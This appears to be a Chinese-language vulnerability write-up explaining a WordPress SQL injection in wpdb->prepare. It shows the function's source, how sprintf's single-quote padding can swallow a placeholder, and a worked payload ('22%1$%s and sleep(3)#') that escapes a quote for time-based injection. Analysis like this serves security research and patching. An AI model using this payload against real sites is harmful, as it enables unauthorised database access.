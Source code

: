 ```php
	$query = str_replace( "'%s'", '%s', $query ); // in case someone mistakenly already singlequoted it
	$query = str_replace( '"%s"', '%s', $query ); // doublequote unquoting
	$query = preg_replace( '|(?<!%)%f|' , '%F', $query ); // Force floats to be locale unaware
	$query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); // quote the strings, avoiding escaped strings like %%s
	array_walk( $args, array( $this, 'escape_by_ref' ) );
	return @vsprintf( $query, $args );
}
```

有意思的是prepare函数先把`'%s'`替换为`%s`,再把`%s` 替换为`'%s'`, 然后调用vsprintf函数格式化字符串



我们来看下sprintf(vsprintf同sprintf)函数的语法

```php
<?php
$s = 'monkey';
$t = 'many monkeys';

printf("[%010s]\n",   $s); 
printf("[%'#10s]\n",  $s); 
printf("[%\'#10s]\n",  $s);
printf("[%'110s]\n",  $s); 
?>

>>>
[0000monkey]
[####monkey]
[1111monkey]
['#10s]
```

可以看到sprintf 中的占位符`%` 后面如果是单引号，那么单引号后的一个字符会作为padding填充字符串。


如果我们改变meta_value的值位`22%1$%s and sleep(3)#`

经过第一个vsprintf的处理后变成

    AND meta_value = '22%1$'%s' and sleep(3)#'
    
第一次拼接后又进入一次sprintf函数，此时的sql语句为:


    "SELECT $type_column FROM $table WHERE meta_key = %s AND meta_value = '22%1$'%s' and sleep(3)#'", $meta_key
    

经过prepare处理后的语句为:

    "SELECT $type_column FROM $table WHERE meta_key = '_thumbnail_id' AND meta_value = '22_thumbnail_id' and sleep(3)#'"
    


格式化后把`%1$'%s` 替换为`_thumbnail_id`(单引号后面的%被当作一个padding字符了，而不是占位符), 这样就逃逸出了一个单引号了，这个SQL注入不会报错，只能使用延时注入，而且需要后台的上传权限，所以利用起来比较困难。
